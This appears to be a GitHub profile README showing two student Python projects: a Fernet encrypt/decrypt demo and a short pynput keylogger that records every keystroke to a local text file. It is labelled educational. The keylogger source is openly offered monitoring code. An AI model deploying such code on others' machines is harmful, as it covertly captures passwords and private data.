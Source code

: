 ##### [LinkedIn](https://www.linkedin.com/in/allana-gibson/)
##### [Merit Page](https://meritpages.com/Allana-Gibson/5963308)
##### [Resume](https://github.com/Allana-Gibson/Personal-Projects/files/8082930/Allana_Gibson_Resume.1.pdf)


# Cryptography Project

- Helps to encrypt a plain text,key,number or a word phrase using cryptographic algorithm. 
- The text can be hidden from others except the sender and the receiver.

### Here is the source code of my 3 program files (in python):

```markdown
# this script creates the key to encrypt and decrypt with

from cryptography.fernet import Fernet
key = Fernet.generate_key() #this generates a random key each time its called
print(key)

# so we need to write the key to a file so we use the same one each time
file = open('key.file', 'wb')
file.write(key) #key is a byte and it stores it into a file
file.close()
```
- The output will extract the key.

### Here is a picture of the output file:
![image1](https://user-images.githubusercontent.com/53357849/158883036-850e9223-26e6-45bc-a3e0-5768ec56d67f.png)


```markdown
from cryptography.fernet import Fernet

#First get the key from the imported file
file = open('key.file', 'rb')
key = file.read()
file.close()

#this will encode the message
message = "Hello! This is my secret message"
encoded = message.encode() #this converts the message to bytes

#this will encrypt the message
f = Fernet(key)
encrypted = f.encrypt(encoded)
print (encrypted)

# saves encrypted message into file
file = open('encrypted.message', 'wb')
file.write(encrypted)
file.close()
```
- The output will print the encrypted message.

### Here is a picture of the output file:
![image2](https://user-images.githubusercontent.com/53357849/158883138-5f960089-6d81-4045-810e-55c2c93feb8e.png)



```markdown
from cryptography.fernet import Fernet

#First get the key from the imported file
file = open('key.file', 'rb')
key = file.read()
file.close()

#Then get the encrypted message
file = open('encrypted.message', 'rb')
message = file.read()
file.close()

#This decrypts the encrypted message
f2 = Fernet(key)
decrypted = f2.decrypt(message)

#this decodes the message from byte to sting
original_message = decrypted.decode()
print(original_message)


#saves ogininal message into a file
file = open('original.message', 'wb')
file.write(decrypted)
file.close()

```
- The output will decrypt the encrypted message and save it into a file.

### Here is a picture of the output file:
![image3](https://user-images.githubusercontent.com/53357849/158883287-8ce02402-67fc-40bd-96a7-240b2d2c37b1.png)


# KeyLogger Project

- A keylogger is a type of monitoring software `or malware` that is used to collect every keystroke the user types.
#### Reasons for use:
1. Hackers trying to access **personal data**.
2. IT organizations attempting to troubleshoot **technical problems**.

- I did this for educational research ONLY.

### Here is the source code of my program (in python):

```markdown
from pynput.keyboard import Key, Listener
import logging

logKeystroke = ""

logging.basicConfig(filename=(logKeystroke + "key_log.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')
                                                                   # prints the text with date & time
def on_press(key):
    logging.info(str(key)) #when a key is pressed it will store the info in file

with Listener(on_press=on_press) as listener:
    listener.join()

```
- The output will extract a `.txt` file on to the folder displaying every keystroke pressed.
- The user will have to terminate the program in `Task Manager` to end the application.

### Here is a picture of the output file:
![snippen2](https://user-images.githubusercontent.com/53357849/154188508-899104ba-b2a2-4264-bd5e-d8b9ad0b3fdc.png)

